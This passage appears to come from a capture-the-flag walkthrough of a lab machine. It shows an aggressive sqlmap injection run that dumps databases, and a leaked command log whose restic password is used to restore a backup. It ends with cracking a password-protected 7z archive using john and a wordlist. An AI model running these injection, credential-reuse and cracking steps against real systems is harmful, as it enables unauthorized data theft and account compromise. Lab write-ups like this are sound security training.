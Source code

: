 Now, let's start the proxy and launch our sqlmap:
```bash
sqlmap -u "http://localhost:1337" --data '{"email":"*"}' --headers="Content-Type: application/json" --proxy=http://localhost:1337 --level 5 --risk 3 --dump-all --batch --thread=5 --time-sec=3
```

This takes too long to dump the entire DBMS, but during the scan, a few databases of interest appear:

- phishing
- temp

To dump only a specific table, you just need to add a flag to sqlmap: `-D <table_name>`

The `phishing` database contains the `victims` table, which is used for the SQLi. The `temp` database contains the `command_log` table.
```
Database: temp
Table: command_log
[6 entries]
```

| id  | date                | command                                                                         |
| --- | ------------------- | ------------------------------------------------------------------------------- |
| 1   | 2024-08-30 10:44:01 | `uname -a`                                                                      |
| 2   | 2024-08-30 11:58:05 | `restic init --repo rest:http://75951e6ff.whiterabbit.htb`                      |
| 3   | 2024-08-30 11:58:36 | `echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw > .restic_passwd`                        |
| 4   | 2024-08-30 11:59:02 | `rm -rf .bash_history`                                                          |
| 5   | 2024-08-30 11:59:47 | `#thatwasclose`                                                                 |
| 6   | 2024-08-30 14:40:42 | `cd /home/neo/ && /opt/neo-password-generator/neo-password-generator \| passwd` |

This is the command history. Among the information, we notice another subdomain that is a **restic** backup repository, and they've also left the password to access the repository. Another detail is that now we know the first user, `neo`, whose password was generated using `neo-password-generator`.

Let's try downloading the backup from the repository using the command:
```bash
restic -r rest:http://75951e6ff.whiterabbit.htb restore latest --target ./restore
```

We enter the password `ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw`.

```
repository 5b26a938 opened (version 2, compression level auto)
[0:00] 100.00%  5 / 5 index files loaded
restoring snapshot 272cacd5 of [/dev/shm/bob/ssh] at 2025-03-06 17:18:40.024074307 -0700 -0700 by ctrlzero@whiterabbit to ./restore
Summary: Restored 5 files/dirs (572 B) in 0:00
```

Inside, there is a 7z file `bob.7z` which is password protected. We extract the hash and try to crack it with _johntheripper_.

```bash
7z2john bob.7z > bob.7z.hash

john --wordlist=/usr/share/wordlists/rockyou.txt bob.7z.hash
```
